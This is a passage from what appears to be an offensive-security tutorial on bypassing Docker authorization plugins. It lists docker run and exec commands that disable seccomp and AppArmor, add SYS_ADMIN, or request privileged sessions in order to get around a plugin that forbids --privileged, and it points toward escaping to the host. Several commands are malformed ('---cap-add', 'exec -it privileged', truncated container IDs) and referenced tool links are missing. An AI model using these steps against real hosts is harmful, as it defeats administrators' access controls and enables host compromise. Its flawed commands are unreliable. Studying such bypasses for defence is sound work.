### Simple Plugin Tutorial

You can find an easy to understand plugin with detailed information about installation and debugging here: 

Read the `README` and the `plugin.go` code to understand how is it working.

## Docker Auth Plugin Bypass

### Enumerate access

The main things to check are the which endpoints are allowed and which values of HostConfig are allowed.

To perform this enumeration you can use the tool .

### disallowed `run --privileged`

#### Minimum Privileges

```
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

#### Running a container and then getting a privileged session

In this case the sysadmin disallowed users to mount volumes and run containers with the `--privileged` flag or give any extra capability to the container:

```
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```

However, a user can create a shell inside the running container and give it the extra privileges:

```
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```

Now, the user can escape from the container using any of the  and escalate privileges inside the host.
